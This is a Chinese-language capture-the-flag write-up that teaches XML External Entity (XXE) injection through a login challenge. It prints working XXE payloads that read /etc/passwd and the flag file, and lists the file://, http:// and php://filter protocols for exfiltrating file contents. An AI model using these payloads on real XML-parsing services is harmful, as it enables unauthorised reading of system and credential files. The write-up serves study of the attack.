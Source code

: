 
这个其实和上面的没有特别大的不同，只不过这个是用来引用外部的实体资源罢了，但是外部实体可支持http、file等协议，所以利用一些常见的协议：   

	file://文件绝对路径 如：file:///etc/passwd
	http://url/file.txt
	php://filter/read=convert.base64-encode/resource=xxx.php
  
那么大致知道这些后我们就可以理出来XML外部注入的原理了，如果程序没有禁止外部引入，并且我们上传数据和文件没有进行过滤且我们可以控制，那么我们就可以构造payload读取任意文件并且使使我们的DTD实体变成读取的文件，最后返回到xml中去。   

下面用一道题来讲解一下：  

打开题目，发现是一个登陆界面  

[![](https://img.imgdb.cn/item/606f34008322e6675c846e30.png)](https://img.imgdb.cn/item/606f34008322e6675c846e30.png)  

经过尝试发现不是sql注入，那么进行抓包分析：  

[![](https://img.imgdb.cn/item/606f343a8322e6675c849bb0.png)](https://img.imgdb.cn/item/606f343a8322e6675c849bb0.png)  

看的出来时xml形式来传递数据username和password的，那么我们尝试能否外部注入。   

这样构造payload：   

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE user [
	 <!ENTITY xxe SYSTEM "file:///etc/passwd">
	 ]>
	<user><username>&xxe;</username><password>&xxe;</password></user>  

可以看到，这里我们外部引用了名称为xxe的DTD实体，这个实体是来自我们使用file://协议读取/etc/passwd下的文件，那么在 xml 中 &xxe; 变成了外部文件/etc/passwd中内容，这也就导致了文件信息的泄露。  

可以看到回显显示我们成功读取到了文件下的内容  

[![](https://img.imgdb.cn/item/606f35958322e6675c85c91c.png)](https://img.imgdb.cn/item/606f35958322e6675c85c91c.png)  

那么接下来我们就可以按照这个方法来读取flag文件，按照做题经验，flag一般都在根目录，那么我们构造payload。  

	<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE user [
	 <!ENTITY xxe SYSTEM "file:///flag">
	 ]>
	<user><username>&xxe;</username><password>&xxe;</password></user>  

确实得到flag。   

[![](https://img.imgdb.cn/item/606f360a8322e6675c863516.png)](https://img.imgdb.cn/item/606f360a8322e6675c863516.png)  

# 小结  

这道xxe题目算是最简单的题目了，有回显，没有过滤什么的，其实关于xxe还有很多知识，这道题目只能算是开了个头，让我认识到了这样的攻击方式，以后还是要通过不断积累来攒够经验。  

下面附上学习xxe的博客，还是要多看：  
